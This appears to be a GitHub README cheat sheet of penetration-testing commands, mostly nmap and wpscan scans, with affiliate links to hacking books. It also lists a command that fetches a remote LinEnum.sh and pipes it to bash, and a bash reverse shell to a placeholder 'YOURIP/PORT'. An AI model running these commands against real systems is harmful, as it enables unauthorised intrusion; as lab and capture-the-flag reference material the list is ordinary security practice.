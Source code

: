 # Usefull-hacking-tips
Some books you want to read:<br>
<ul>
<li><a href="https://www.amazon.com/gp/product/1980901759/ref=as_li_tl?ie=UTF8&camp=1789&creative=9325&creativeASIN=1980901759&linkCode=as2&tag=1333706-20&linkId=b7f2896fbcc265738ba6f2803339d6d2" target="_blank">The Hacker Playbook 3: Practical Guide To Penetration Testing</a></li>
<li><a href="https://amzn.to/2zvdQmI" target="_blank"> Advanced Penetration Testing: Hacking the World's Most Secure Networks</a></li>
  <li><a href="https://amzn.to/2P9TnbS" target="_blank">Social Engineering: The Science of Human Hacking</a></li>
</ul>

usefull tips and tools for hacking
<ul>
  <li> create a file with a range of ip addresses: seq -f "10.10.10.%g" 1 254 > ip.txt
  <li> or use prips 10.0.0.0/23 > ip.txt (first install prips: apt install prips)
  <li>echo  $HISTFILE to check the history file location
</ul>

<b>Port scan commands</b>
<ul>
  <li> nmap -T4 -sV -sT --reason -p1-65535 --vv -oN 'filename' 'IP'
  <li> nmap -sC -sV -oA filename ip - ippsec parameters
  <li> nmap --script vuln 'IP'
  <li> nmap -sV -sC -A -oN filename ip
  <li> unicornscan -r300 -mU 'IP' - UDP scan. USE -mT for TCP
</ul>

<b>IpSec</b>
<ul>
  <li> python -m SimpleHTTPServer PORT
  <li> curl IP:PORT/LinEnum.sh | bash
</ul>

<b>Priv Esc</b>
<ul>
  <li> sudo -l
</ul>

    
<b>Shell</b>
<ul>
  <li> bash -c 'bash -i >& /dev/tcp/YOURIP/PORT 0>&1'
  <li> when having a shell type CTRL-Z to background the shell. then type stty raw -echo and then fg
</ul>

<b>WPscan</b>
<ul>
  <li> wpscan -u URL -eu -ep -et
</ul>
